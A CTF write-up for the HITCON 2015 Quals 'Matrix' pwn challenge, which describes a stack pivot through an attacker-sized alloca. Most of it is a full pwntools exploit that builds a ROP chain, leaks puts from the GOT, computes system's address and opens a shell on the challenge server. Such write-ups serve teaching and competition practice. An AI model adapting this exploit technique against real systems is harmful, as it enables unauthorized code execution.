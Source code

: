 ```yaml
---
layout: post
title: "HITCON 2015 Quals: Matrix"
modified: 2015-10-19
tags: hitcon hitcon2015quals
---
```

*This challenge was solved by and the write up was written by one of my teammates, tukan.*  

The binary implements matrix multiplication.

By specifying a large matrix size, we can trigger an alloca with the size under our control.

Using this, it is possible to pivot the stack pointer to a higher address.

By properly aligning the stack, the scanf function will then eventually overwrite its own saved frame pointer with one of our matrix element input. 

Upon returning from main, this gets into rsp. 

We can use this to move the stack pointer into a user-buffer at a static location in .bss.

Once done, with some ROP we leak the address of puts from the GOT, calculate the address of system and spawn a shell.

High quality exploit follows:

{% highlight python %}
from pwn import *
context.update(arch='amd64', os='linux')

def rop(*args):
    return struct.pack('Q' * len(args), *args)

# LIVE = False
LIVE = True

####### LOCAL #######
if not LIVE:
    fn = '/root/sf/hitcon/matrix/matrix-a0e5c5c0a8f05896a7f03d8ed4588027'
    env = os.environ.copy()
    env['LD_PRELOAD'] = '/tools/preeny/x86_64-linux-gnu/dealarm.so:/media/sf_shared/hitcon/matrix/libc-3f6aaa980b58f7c7590dee12d731e099.so.6'
    r = process(fn, env=env)
    print r.proc.pid
    time.sleep(0.8)

####### REMOTE #######
if LIVE:
    r = remote('52.68.53.28', 31337)

num = 0xfffffffe
ret = 0x400e90
poprdiret = 0x0000000000400f03 # pop rdi ; ret
poprdxret = 0x0000000000400f28 # pop rdx ; ret
poprsipopret = 0x0000000000400f01 # pop rsi ; pop r15 ; ret
stdout = 0x0000000000602080
puts_plt = 0x0000000000400590
fflush_plt = 0x00000000004005F0
fflush_bin = 0x0000000000400E66
puts_got = 0x0000000000602018
read_plt = 0x00000000004005C0
rbp = 0x6022a8

print r.sendafter('name', p64(0)*65 + p64(0x602300-40) + p64(ret) + rop(
    poprdiret,
    puts_got,
    puts_plt,
    # poprdiret,
    # stdout,
    # fflush_plt,
    fflush_bin,
    0xabfaad,
    poprdxret,
    0x32,
    poprsipopret,
    rbp+128,
    0x41,
    poprdiret,
    0,
    read_plt,
    poprdiret,
    rbp+128,
    ret
))

print r.sendlineafter('matrix\n', str(num))

iternum = 128

for i in range(2):
    print r.sendlineafter('matrix : ', str(i))
print r.sendlineafter('matrix : ', str(rbp))

leak = r.recv(8)
print len(leak)
print repr(leak[:-1])
puts_libc = struct.unpack('Q', leak[:-1] + '\x00'*2)[0]
print hex(puts_libc)
system = puts_libc - 0x6fe30 + 0x46640
r.send(p64(rbp+128+16) + rop(system) + '/bin/bash')

print r.recvrepeat(0.5)

r.interactive()
{% endhighlight %}